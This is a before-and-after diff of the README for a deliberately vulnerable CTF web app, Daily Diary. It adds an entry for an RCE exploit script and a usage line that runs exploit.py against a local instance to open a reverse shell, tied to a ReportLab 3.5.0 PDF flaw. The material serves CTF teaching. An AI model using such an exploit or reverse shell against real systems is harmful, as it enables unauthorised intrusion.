

Before and after one commit to Rezy-Dev/Daily-Diary, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
[+] readme updated to match with exploit.py

````diff
--- a/README.md
+++ b/README.md
@@ -24,6 +24,7 @@ This app was initially created by me for the WeShieldCyber CTF Event qualifiers,
 ├── app.py              # Main application script.
 ├── docker-compose.yml  # Docker Compose file for containerized setup.
 ├── Dockerfile          # Dockerfile for building the app container.
+├── exploit.py          # Solution RCE Exploit Script by '@sudo.dwg'
 ├── flag.txt            # File containing a secret flag (for CTF challenges).
 ├── LICENSE             # MIT License.
 ├── README.md           # This document.
@@ -73,7 +74,13 @@ This app was initially created by me for the WeShieldCyber CTF Event qualifiers,
 
 Since you are exploring this app for educational purposes, it’s important to understand the potential risks of insecure code practices. For instance, this app uses the ReportLab library (version `3.5.0`) for PDF generation. Improper sanitization of user input in this process can lead to unintended consequences. Learn more about this type of vulnerability in the following article:
 
-- [ReportLab Vulnerabilities in Web Applications](https://rezydev.xyz/research/)
+- [ReportLab Vulnerabilities in Web Applications](https://rezydev.xyz/research/) - *i have not published the blog on this yet*
+- Use `exploit.py` script on this repository using following switches for reverse shell. It's a PoC Script.
+
+```bash
+# python3 exploit.py http://ip:port username password docker0-interface listening-port
+python3 exploit.py http://localhost:3003 rezydev rezydev 172.17.0.1 1337
+```
 
 ---
 
````
